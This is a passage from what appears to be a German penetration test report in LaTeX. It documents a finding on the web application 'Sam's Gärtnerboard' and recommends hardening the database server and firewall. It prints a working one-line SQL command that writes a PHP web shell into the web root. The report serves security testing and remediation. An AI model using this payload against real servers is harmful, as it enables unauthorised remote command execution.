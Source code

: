 \begin{listing}[!ht]
\begin{verbatim}
Select '<?php system($_REQUEST["cmd"]); ?>' into outfile '/var/www/html/web-shell.php';
\end{verbatim}
\caption{Webshell upload über SQL-Befehl}
\label{listing:sams-gaertnerboard-db:webshell-sql}
\end{listing}


\begin{figure}[!ht]
    \centering
    \includegraphics[width=\linewidth]{images/proofs/03_sam_db_proof.png}
    \caption{Proof für die Datenbank zur Webanwendung Sam's Gärtnerboard}
    \label{fig:03_sam_db_proof}
\end{figure}

\subsection*{Empfehlungen}
\begin{itemize}
    \item Serverkonfiguration: Konfigurieren Sie den Datenbankserver so, dass mit SQL-Befehlen keine oder nur sehr eingeschränkt Dateien in das Dateisystem geschrieben werden können.
    \item Firewall-Regeln: Beschränken Sie den Zugriff auf den Datenbankserver so, dass nur die notwendigsten Systeme darauf zugreifen können.
\end{itemize}
